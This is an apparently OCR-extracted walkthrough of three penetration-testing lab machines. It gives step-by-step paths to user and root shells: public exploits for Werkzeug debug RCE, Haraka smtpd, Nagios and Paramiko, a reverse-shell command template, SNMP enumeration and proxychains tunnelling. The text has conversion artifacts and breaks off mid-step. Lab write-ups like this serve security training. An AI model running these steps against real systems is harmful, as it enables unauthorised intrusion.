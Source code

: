 ```bash
Ekzameno (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Joker
Similar Machine (Root)HackTheBox’s Joker
Exploit in Getting User
1. Port 5000 is open and vulnerable to https://github.com/its-arun/Werkzeug-Debug-RCE
2. Use the exploit
3. User shell!
Privilege Escalation to Root
1. sudo -l
sudoedit /var/www/html/werkzeug-master/examples/*/*/layout.html
1. https://www.exploit-db.com/exploits/37710
2. Root shell!

```bash
Harakiri (.81)
```
Operating SystemWindows
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Target machine has a service called Haraka smtpd 2.8.8 which is vulnerable to RCE -
https://www.exploit-db.com/exploits/41162
1. Update the port in exploit to point it to target machine’s smtp port
2. Get Reverse Shell - python 41162.py -m TARGET_IP -t root@haraka.test -c "reverse shell
here"
1. User shell!
Privilege Escalation to Root
1. Run sudo -l
2. Check the version of nagios - /usr/local/nagios/bin/nagios --version
3. Nagios is vulnerable to Root Privilege Escalation -
https://gist.github.com/xl7dev/322b0f85dc9f6a06573302c7de4f4249
1. Run the exploit - bash nagios-root-privesc.sh /usr/local/nagios/var/nagios.log
2. Root shell!

```bash
Rocinante (.82)
```
Operating SystemLinux
Points25
Similar Machine (User)HackTheBox’s RedCross
Similar Machine (Root)
Exploit in Getting User
1. Run UDP Scan - sudo nmap -sU 192.168.XX.221
2. Download snmp-mibs-downloader - apt-get install snmp-mibs-downloader
3. SNMP is enabled so run this - snmpwalk -v 1 -c public 192.168.XX.221 > snmpwalk.out
4. vim /etc/snmp/snmp.conf and and comment out the only uncommented line to use the mibs
mibs +ALL
1. Run snmpwalk -v 1 -c public 192.168.XX.221 hrSWRunParameters and you will get
HOST-RESOURCES-MIB::hrSWRunParameters.704 = STRING:
"/usr/local/bin/paramiko_2.4.0_sftpserver.py 0.0.0.0 2222 /etc/ssl/roci_rsa.key"
1. Edit proxychain - vim /etc/proxychains.conf and put http 192.168.XX.221 3128
2. Then run - proxychains curl http://127.0.0.1:2222 and you will get connected
|S-chain|-<>-192.168.32.221:3128-<><>-127.0.0.1:2222-<><>-OK
SSH-2.0-paramiko_2.4.0
1. Use Paramiko 2.4.1 exploit - https://www.exploit-db.com/exploits/45712
2. Edit the exploit
Get local - print(sftp.get('/home/roci/local.txt','local.txt'))
List Dir - print(sftp.listdir('/'))
1.  Run proxychains python exploit.py
2.  Or if you don’t want to edit too much in Step 8 to 10. Use this to get reverse shell